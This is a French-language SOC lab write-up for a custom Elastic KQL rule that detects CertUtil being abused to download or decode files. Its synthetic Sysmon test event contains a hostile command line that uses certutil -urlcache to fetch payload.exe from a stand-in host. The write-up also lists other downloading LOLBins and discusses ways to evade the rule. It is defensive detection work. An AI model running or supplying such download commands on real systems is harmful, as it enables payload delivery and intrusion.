




# Cas 01 - CertUtil LOLBin : téléchargement et décodage suspects

## Technique ATT&CK

- **T1105** - Ingress Tool Transfer (Command and Control, TA0011)
- **T1140** - Deobfuscate/Decode Files or Information (Defense Evasion, TA0005)

## Hypothèse de détection

`certutil.exe` est un binaire Windows légitime (outil de gestion de certificats). Il est régulièrement détourné comme LOLBin pour télécharger des fichiers depuis Internet (`-urlcache -split -f <url>`) ou décoder du contenu base64 (`-decode`, `-encode`). Aucun de ces usages n'a de justification légitime sur un poste utilisateur standard.

L'hypothèse : toute invocation de `certutil.exe` avec l'un de ces flags doit être considérée comme hautement suspecte et générer une alerte.

## Data source

- **Event ID Sysmon 1** - Process Create
- **Channel** : `Microsoft-Windows-Sysmon/Operational`
- **Champ discriminant** : `winlog.event_data.OriginalFileName`

Le choix de `OriginalFileName` plutôt que `winlog.event_data.Image` (chemin de l'exécutable) est délibéré : `Image` peut être contourné en renommant le binaire (ex. `certutil.exe` → `svchost32.exe`), tandis qu'`OriginalFileName` est extrait du PE header par Sysmon et reflète le nom original compilé dans le binaire - il résiste donc au renommage.

## Méthode de test

Le test a été réalisé par **injection synthétique** d'un log Sysmon EID 1 directement dans Elasticsearch via l'API REST. La contrainte RAM du lab (16 Go pour trois VMs simultanées) rend l'exécution live non viable dans ce contexte.

Le log injecté reproduit la structure exacte d'un event Sysmon réel :

```bash
curl -s -X POST "https://localhost:9200/soc-winlogbeat-test/_doc" \
  -H "Content-Type: application/json" \
  -u "elastic:<ELASTIC_PASSWORD>" \
  --cacert /etc/elasticsearch/certs/http_ca.crt \
  -d '{
    "@timestamp": "'"$(date -u +%Y-%m-%dT%H:%M:%S.000Z)"'",
    "winlog": {
      "channel": "Microsoft-Windows-Sysmon/Operational",
      "event_id": "1",
      "computer_name": "DFIR-PC",
      "event_data": {
        "Image": "C:\\Windows\\System32\\certutil.exe",
        "OriginalFileName": "CertUtil.exe",
        "CommandLine": "certutil.exe -urlcache -split -f http://malicious.example/payload.exe C:\\Users\\Public\\payload.exe",
        "ParentImage": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
      }
    },
    "agent": { "name": "DFIR-PC" },
    "host": { "name": "DFIR-PC" }
  }'
```

Cette injection valide que la règle détecte correctement la structure de données. Elle ne teste pas l'exécution réelle de `certutil.exe` ni le transit par le pipeline Winlogbeat → Logstash.

## Vérification dans Discover

Après injection, le log apparaît dans Kibana Discover avec les champs attendus - `OriginalFileName: CertUtil.exe`, `CommandLine` contenant `-urlcache`, `ParentImage: powershell.exe`.



## Règle custom

Nom : **LOLBin - CertUtil Suspicious Download**

Aucune règle Elastic prebuilt ne cible `winlog.event_data.OriginalFileName` dans la data view `soc-winlogbeat*` de ce lab. Les règles prebuilt existantes (`Unusual Process For a Windows Host`, etc.) s'appuient sur des champs ECS non peuplés dans ce pipeline.

```kql
winlog.event_data.OriginalFileName : "CertUtil.exe" and
winlog.event_data.CommandLine : ("*-urlcache*" or "*-decode*" or "*-encode*")
```

- **Langage** : KQL
- **Rule type** : Query
- **Severity** : Medium
- **Risk score** : 47
- **Index pattern** : `soc-winlogbeat*`





Le mapping MITRE configuré dans la règle : Command and Control (TA0011) > Ingress Tool Transfer (T1105) et Defense Evasion (TA0005) > Deobfuscate/Decode Files or Information (T1140).

## Validation

La règle a généré **2 alertes Medium** sur l'hôte `DFIR-PC`, correspondant aux deux injections de test (deux timestamps distincts).



## Limites et contournements

**Bypass par renommage partiel contourné, pas total.** Utiliser `winlog.event_data.Image` aurait laissé passer un binaire renommé ; `OriginalFileName` résiste à cette technique. En revanche, si l'attaquant recompile `certutil.exe` avec un `OriginalFileName` modifié, la règle ne détecte plus rien - ce vecteur reste théoriquement accessible mais nécessite des ressources significatives.

**Couverture LOLBin incomplète.** Cette règle ne couvre que `certutil.exe`. D'autres LOLBins offrent des capacités de téléchargement équivalentes : `bitsadmin`, `mshta`, `curl` (natif depuis Windows 10 1803), `powershell -WebClient`, `regsvr32`, etc. Chacun nécessiterait une règle dédiée ou une règle de type "liste" plus large - avec un risque de faux positifs plus élevé.

**Absence de filtre sur le ProcessParent.** Ajouter un filtre sur `ParentImage` permettrait de réduire les faux positifs dans un environnement où `certutil.exe` serait légitimement utilisé par un outil de déploiement ou un antivirus. Sur un poste utilisateur isolé, ce filtre n'est pas indispensable.
